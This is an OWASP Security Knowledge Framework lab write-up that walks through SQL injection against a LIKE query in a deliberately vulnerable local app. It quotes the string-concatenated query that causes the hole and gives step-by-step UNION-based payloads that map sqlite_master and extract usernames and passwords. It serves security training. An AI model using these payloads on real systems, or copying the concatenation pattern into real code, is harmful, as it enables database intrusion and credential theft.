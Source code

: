 # KBID 156 - SQLI \(Like\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:sqli-like
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sqli-like
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by page name and displays the content.

![](.gitbook/assets/sqli-like-1.png)

```text
http://localhost:5000/home/Admin
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](.gitbook/assets/sqli-like-2.png)

```text
http://localhost:5000/home/Admin'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute("SELECT UserName, email FROM users WHERE UserName LIKE '%"+username+"%' ORDER BY UserId")
```

### Step3

Now we need to inject characters to make the SQL query syntactically correct.

![](.gitbook/assets/sqli-like-3.png)

```text
http://localhost:5000/home/Admin%'--
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](.gitbook/assets/sqli-like-4.png)

```text
http://127.0.0.1:5000/home/Admin%' AND 1=1--
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](.gitbook/assets/sqli-like-5.png)

```text
http://localhost:5000/home/Admin%' union select 1--
```

This query results in an error, this is due to the fact that the original query started with 2 columns namely  
\* UserName \* email

![](.gitbook/assets/sqli-like-6.png)

```text
http://localhost:5000/home/Admin%' union select 1,2--
```

Notice how "UserName" and "email" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take, the next step is querying system tables to check which tables are stored in the Database. From the error message in the first picture, we can determine a SQLite DB is being used. As the application didn't return an error, our guess is correct.

![](.gitbook/assets/sqli-like-7.png)

```text
http://localhost:5000/home/Admin%' union select 1,2 from sqlite_master--
```

#### Step 3

Now we need to discover the table and columns name of the table we want to extract. As the application only displays the first result, we need to play with SQL Limit.

![](.gitbook/assets/sqli-like-8.png)

```text
http://localhost:5000/home/Admin%' union select tbl_name,sql from sqlite_master limit 1,1--
```

#### Step 4

Now we have all the information required to extract data from _users_ table. Play with SQL Limit to get credentials from more users.

![](.gitbook/assets/sqli-like-9.png)

```text
http://localhost:5000/home/Admin%' union select UserName,Password from users limit 0,1--
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

[https://www.techonthenet.com/sqlite/sys\_tables/index.php](https://www.techonthenet.com/sqlite/sys_tables/index.php)

